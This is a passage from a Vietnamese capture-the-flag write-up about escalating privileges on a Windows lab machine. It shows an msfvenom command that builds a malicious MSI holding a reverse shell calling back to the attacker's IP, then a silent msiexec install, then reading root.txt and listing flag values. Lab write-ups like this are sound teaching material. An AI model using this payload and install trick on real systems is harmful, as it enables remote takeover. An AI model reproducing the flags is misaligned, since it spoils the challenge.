 ![image](https://hackmd.io/_uploads/SklnTCiKR.png)

### Msfvenom
Từ trên tạo file `.msi` độc hại bằng cách sử dụng msfvenom

```
┌──(kali㉿kali)-[~/Downloads]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.93 LPORT=1414 -f msi -o malicious.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: malicious.msi
```
Chạy trình cài đặt bằng lệnh bên dưới và nhận reverse shell:
```
C:\xampp\htdocs\omrs\images>msiexec /quiet /qn /i C:\xampp\htdocs\omrs\images\malicious.msi
```

![image](https://hackmd.io/_uploads/r1P6AJ3KA.png)

## Post-Exploit
Sử dụng lệnh cuối để lấy được flag
```
C:\WINDOWS\system32>type C:\Users\Administrator\Desktop\root.txt 
type C:\Users\Administrator\Desktop\root.txt
5ef49ca9ed215c3a3a3bdb8f9f225363
```

# Results 
1. Submit User flag --> 5375d5a96c7e355*****
2. Submit Root flag --> d18fa9796365489********

![image](https://hackmd.io/_uploads/BJftQCjKR.png)
